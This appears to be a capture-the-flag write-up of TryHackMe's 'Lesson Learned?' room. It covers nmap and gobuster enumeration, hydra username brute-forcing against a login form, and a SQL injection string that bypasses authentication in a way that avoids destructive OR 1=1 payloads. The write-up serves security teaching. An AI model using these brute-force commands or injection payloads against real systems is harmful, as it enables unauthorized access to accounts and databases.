




### Introduction
Today we're going to take a look at [Lesson Learned?](./https://tryhackme.com/r/room/lessonlearned) room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.


### Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

### OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.


_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088)_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)

### Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

### SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.


And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
